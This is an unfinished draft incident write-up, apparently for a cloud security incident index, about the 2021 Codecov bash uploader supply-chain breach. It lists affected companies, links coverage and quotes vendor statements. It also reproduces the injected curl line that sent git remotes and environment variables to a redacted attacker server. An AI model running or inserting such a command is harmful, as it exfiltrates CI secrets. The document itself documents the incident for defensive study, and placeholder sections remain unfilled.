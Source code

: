 ```yaml
---
title: "Codecov"
date: 2023-04-16T07:55:47-04:00

description: "Update this with a social media and SEO synopsis"

# Set to false before publishing
draft: true

# This is not used for SEO, but allows users on the site to view incidents by keyword
tags: ["SupplyChain", "GCP"]

showToc: true # Do not change
author: "Chris Farris"
author_url: "https://www.chrisfarris.com/"

# These details are used to populate the Incident Index page.
victim: "Codecov"
incident_start_date: 2021-01-31
incident_end_date: 2021-04-01
disclosure_date: 2021-04-15
final_status: "Perpetrator Unknown"

---
```


Form a brief synopsis of the incident. No more than two to three paragraphs.

<!--more--> <!-- This separates the synopsis from the main body -->

## Incident

### Details of the Incident

### Attribution / Perpetrator

### Long-term impact

Other companies impacted:
* [Hashicorp](https://discuss.hashicorp.com/t/hcsec-2021-12-codecov-security-event-and-hashicorp-gpg-key-exposure/23512)
* [Twillio](https://www.twilio.com/blog/response-to-the-codecov-vulnerability)
* [Rapid7](https://www.rapid7.com/blog/post/2021/05/13/rapid7s-response-to-codecov-incident/)
* [Mercari](https://www.bleepingcomputer.com/news/security/e-commerce-giant-suffers-major-data-breach-in-codecov-incident/)
* [Monday](https://monday.com/blog/news/monday-coms-response-to-the-recent-codecov-vulnerability/)
* [Coalition](https://www.coalitioninc.com/blog/incident-report-in-response-to-the)

## Summary of coverage
* Source: [News Article One](FIXME) Month, Day, Year
* Source: [News Article Two](FIXME) Month, Day, Year
* [Press Release](FIXME) Month, Day, Year
* Codecov: [Bash Uploader Security Update](https://about.codecov.io/security-update/) April 15th, 2021
* Codecov: [Introducing Codecov’s New Uploader](https://about.codecov.io/blog/introducing-codecovs-new-uploader/) June 9th, 2021

https://snyk.io/blog/codecov-ceo-cto-share-learnings-from-breach-tsd/ <- PodCast

https://blog.gitguardian.com/codecov-supply-chain-breach/

https://www.reuters.com/technology/us-investigators-probing-breach-san-francisco-code-testing-company-firm-2021-04-16/
https://www.reuters.com/technology/codecov-hackers-breached-hundreds-restricted-customer-sites-sources-2021-04-19/ (paywall)

https://www.bleepingcomputer.com/news/security/hundreds-of-networks-reportedly-hacked-in-codecov-supply-chain-attack/
https://www.securityweek.com/codecov-bash-uploader-dev-tool-compromised-supply-chain-hack/
https://www.securityweek.com/twilio-hashicorp-among-codecov-supply-chain-hack-victims/
https://www.securityweek.com/codecov-kills-bash-uploader-blamed-supply-chain-hack/
https://www.securityweek.com/rapid7-source-code-exposed-codecov-supply-chain-attack/


## Cloud Security Implications of this incident.

>Based upon the forensic investigation results to date, it appears that there was periodic, unauthorized access to a Google Cloud Storage (GCS) key beginning January 31, 2021, which allowed a malicious third-party to alter a version of our bash uploader script to potentially export information subject to continuous integration (CI) to a third-party server. Codecov secured and remediated the script April 1, 2021. https://about.codecov.io/security-update/


> If CodeCov had required all users to disclose personal information like an email address, then reaching everyone post-breach would have been simple. Giving customers the option to utilize a social signer allowed them to keep their personal data more private, but also led to serious hurdles when urgent communication was needed. Would CodeCov’s disclosure process have looked different if notifying users was as simple as a mass email? Most likely not. As Hooten said, “I think you'll know you're doing it right, when the answer is obvious, even if the way ahead is painful or difficult.” The value structure at the core of CodeCov would have pushed its team toward transparency regardless. (https://snyk.io/blog/codecov-ceo-cto-share-learnings-from-breach-tsd/)


Holy Fuck, it took two months for someone to bother to validate the checksums on the file?
> One customer of Codecov realized that the (correct) shasum listed on Codecov’s GitHub didn’t match with the shashum (hash or “file fingerprint”, a Linux program that calculates and verifies SHA-1 hashes) of the Bash Uploader script present on the website. Hadn’t this been the case, the infiltration would have been of a different degree – nothing less than a previously known SolarWinds Sunburst attack. https://www.sisainfosec.com/blogs/codecov-breach-all-questions-answered/



Seriously, this is bad. We need to stop:
```bash
curl -sm 0.5 -d “$(git remote -v)<<<<<< ENV $(env)” https://<redacted>/upload/v2 || true
```

GitHub jumped in to help:
> On April 22, 2021 we received a notification from GitHub, a third party code hosting platform, that suspicious activity had been detected in our account related to the Codecov event, and indicating that a read-only Coalition user token used by Codecov to access our Github account may have been exposed. This immediately triggered our security incident response process, and with the help of GitHub we identified a set of GitHub repositories that had been cloned by the attacker on April 12, 2021 prior to Codecov’s public disclosure of the breach. https://www.coalitioninc.com/blog/incident-report-in-response-to-the

